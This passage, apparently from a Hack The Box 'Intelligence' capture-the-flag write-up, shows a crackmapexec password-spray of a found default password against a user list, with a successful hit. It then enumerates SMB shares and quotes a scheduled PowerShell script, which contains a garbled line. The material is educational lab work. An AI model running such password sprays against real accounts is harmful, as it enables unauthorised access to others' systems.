 Awesome, we've discovered the default account setup password: NewIntelligenceCorpUser9876

Lets spray this against our users list in hopes someone didn't update their password after onboarding:

```
┌──(ryan㉿kali)-[~/HTB/Intelligence]
└─$ crackmapexec smb intelligence.htb -u uzers.txt -p 'NewIntelligenceCorpUser9876' | grep [+] 
SMB         intelligence.htb 445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876
```

Seeing which shares Tiffany.Molina can read we see she can access the IT and Users  non-default shares.

![intelligence_tiff_shares.png](../assets/intelligence_assets/intelligence_tiff_shares.png)

Looking in the IT share we find a downdector.ps1 script:

```powershell
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```

And in the Users share we can access the user.txt flag on Tiffany's Desktop, but lets hold off on that until we actually have a shell:

```
smb: \Tiffany.Molina\Desktop\> ls
  .                                  DR        0  Sun Apr 18 19:51:46 2021
  ..                                 DR        0  Sun Apr 18 19:51:46 2021
  user.txt                           AR       34  Tue Feb 13 15:22:23 2024
```

Going back to downdetector.ps1 we can see the script is scanning for AD servers beginning in `web*` and trying to authenticate to the server using Ted.Graves credentials. If the authentication is unsuccessful (i.e anything but a 200 is returned) it emails Ted.Graves.
